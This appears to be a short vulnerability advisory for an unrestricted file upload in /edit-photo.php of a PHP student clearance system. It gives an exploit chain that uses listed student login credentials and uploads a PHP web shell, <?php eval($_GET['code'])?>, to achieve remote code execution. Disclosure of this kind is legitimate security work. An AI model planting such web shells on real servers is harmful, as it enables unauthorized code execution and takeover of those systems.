 #### Title: web-based_student-system_RCE.md
#### Author: toyydsBT123
#### organize: Arr3stY0u
#### Organization introduction : https://www.shg-sec.com/
#### Date: 09/30/2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html
#### Version: 1.0
#### Reference: https://github.com/toyydsBT123/web-based-student/blob/main/web-based_student-system_RCE_poc.md

#### Description:
### Unrestricted POST upload file found in /edit-photo.php, resulting in remote code execution,User can make <?php phpinfo();?> or <?php eval($_GET['code'])?> to exploit

# Status: CRITICAL

### [+] Payloads:
student_user->(username:18/132010)(password:11111111) -> login.php ->/edit-photo.php->POST upload phpcodeFile ->(<?php phpinfo();?>) or (<?php eval($_GET['code'])?>)
send File->server -> Access the uploaded php file -> PHP RCE

```
###payload
```

## Proof and Exploit:
Burp![image](https://github.com/toyydsBT123/web-based-student/blob/main/1.png)
Firefox browser ![image](https://github.com/toyydsBT123/web-based-student/blob/main/2.png)
code ![image](https://github.com/toyydsBT123/web-based-student/blob/main/3.png)
